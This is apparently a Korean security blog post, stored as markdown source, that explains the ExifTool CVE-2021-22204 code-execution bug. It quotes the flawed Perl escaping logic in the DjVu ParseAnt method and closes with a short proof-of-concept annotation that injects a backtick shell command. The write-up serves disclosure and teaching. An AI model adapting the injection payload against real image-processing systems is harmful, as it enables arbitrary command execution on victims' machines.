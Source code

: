 ```yaml
---
title: "[하루한줄] CVE-2021-22204: ExifTool 임의 코드 실행 취약점"
author: L0ch
tags: [L0ch, cve, arbitrary code execution, escape sequence]
categories: [1day1line]
date: 2021-05-18 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[ExifTool CVE-2021-22204 - Arbitrary Code Execution](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)

## Target

- ExifTool 

## Explain
이미지 파일의 메타 데이터를 수정할때 사용되는 ExifTool에서 임의 코드 실행 취약점이 발견되어 세부 정보가 공개되었습니다.

ExifTool은 perl 스크립트로 구현되었으며 취약점은 DjVu 파일을 파싱하는 `DjVu` 모듈의 `ParseAnt` 메서드에 존재합니다.

```perl
sub ParseAnt($)
...
$tok = '';
  for (;;) {
      # get string up to the next quotation mark
      # this doesn't work in perl 5.6.2! grrrr
      # last Tok unless $$dataPt =~ /(.*?)"/sg;
      # $tok .= $1;
      my $pos = pos($$dataPt);
      last Tok unless $$dataPt =~ /"/sg;
      $tok .= substr($$dataPt, $pos, pos($$dataPt)-1-$pos);
      # we're good unless quote was escaped by odd number of backslashes
      last unless $tok =~ /(\\\\+)$/ and length($1) & 0x01;
      $tok .= '"';    # quote is part of the string
  }
  # must protect unescaped "$" and "@" symbols, and "\\" at end of string
  $tok =~ s{\\\\(.)|([\\$\\@]|\\\\$)}{'\\\\'.($2 || $1)}sge;
  # convert C escape sequences (allowed in quoted text)
  $tok = eval qq{"$tok"};
...
```

위 코드는 C와 유사한 escape sequence를 구현한 코드로 `$tok` 변수의 특수 문자를 escape 처리한 뒤 이를 `eval` 함수에 전달합니다.

그러나 정규식 `tok =~ /(\\\\+)$/` 에서 `$`가 문자열의 끝과 개행을 의미해 백 슬래시와 개행 문자를 쓰면 문자열이 끝난 것으로 인식하고 개행 이후에 오는 특수 문자를 처리하지 않습니다. 따라서 `return data;` 코드를 실행하는 아래 PoC와 같이 `eval` 함수를 벗어나 임의 코드를 실행할 수 있습니다.

```python
(metadata
    (Author "\\
" . return `date`; #")
)
```